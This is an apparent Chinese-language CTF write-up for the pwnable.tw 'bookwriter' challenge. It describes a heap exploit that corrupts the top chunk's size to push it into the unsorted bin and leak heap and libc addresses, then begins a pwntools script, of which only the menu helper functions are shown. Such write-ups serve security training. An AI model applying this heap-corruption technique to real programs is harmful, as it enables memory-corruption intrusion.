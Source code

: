 ### 调试

首先申请一个chunk并填满，这时就和top chunk相邻了，此时修改就会改变大小，下一次修改即可修改到top chunk的size了

将top chunk的size高位去掉一般就可以通过检查（0x20fe1--->0x0fe1）

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605100609786-ab8ff2ac-8b1d-44d8-8fb2-7cfa67de3d15.png)修改成功

此时申请一个大一点的chunk，top chunk就会到unsorted bin中

此时继续申请就会从unsorted bin中切割给我们了

在申请一个就可以leak了

然后填满chunk，溢出到data[9]时data[0]的size变成一个很大的数

之后通过填充author可以leak 堆的地址 

### 脚本

```python
from pwn import *
context.log_level = 'debug'
# p = process('./bookwriter',env={'LD_PRELOAD':'./libc_64.so.6'})
p = process('./bookwriter')
# p = remote('chall.pwnable.tw', 10304)

buffer_addr = 0x602060


def launch_gdb():
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(proc.pidof(p)[0])


def add(page_size, context):
    p.sendline('1')
    p.recvuntil('Size of page :')
    p.sendline(str(page_size))
    p.recvuntil('Content :')
    p.send(context)
    p.recvuntil('Done !')


def view(id):
    p.sendline('2')
    p.recvuntil('Index of page :')
    p.sendline(str(id))
    p.recvuntil('Content :\n')


def edit(id, context):
    p.sendline('3')
    p.recvuntil('Index of page :')
    p.sendline(str(id))
    p.recvuntil('Content:')
    p.send(context)
    p.recvuntil('Done !')


def information(author):
    p.sendline('4')
    p.recvuntil('Do you want to change the author ? (yes:1 / no:0) ')
    p.sendline('1')
    p.recvuntil('Author :')
    p.send(author)
```